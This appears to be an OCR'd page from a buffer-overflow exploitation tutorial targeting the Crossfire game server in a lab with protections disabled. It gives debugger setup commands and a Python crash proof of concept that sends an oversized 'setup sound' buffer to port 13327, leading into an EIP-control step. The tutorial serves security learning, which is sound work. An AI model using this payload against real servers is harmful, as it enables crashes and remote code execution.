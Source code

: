 The version of crossfire we are testing was compiled without the stack smashing
protection support, as well as without ASLR and DEP support.

apt-get update

apt-get install edb-debugger

edb --run /usr/games/crossfire/bin/crossfire

crash poc:

\#!/usr/bin/python

import socket

host = "127.0.0.1"

crash="\\x41" \* 4379

buffer = "\\x11(setup sound " + crash + "\\x90\\x00\#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

print "[\*]Sending evil buffer..."

s.connect((host, 13327))

data=s.recv(1024)

print data

s.send(buffer)

s.close()

print "[\*]Payload Sent !"

Controlling EIP

![](media/377b796e52fe6479eb5d77bd010f530a.png)

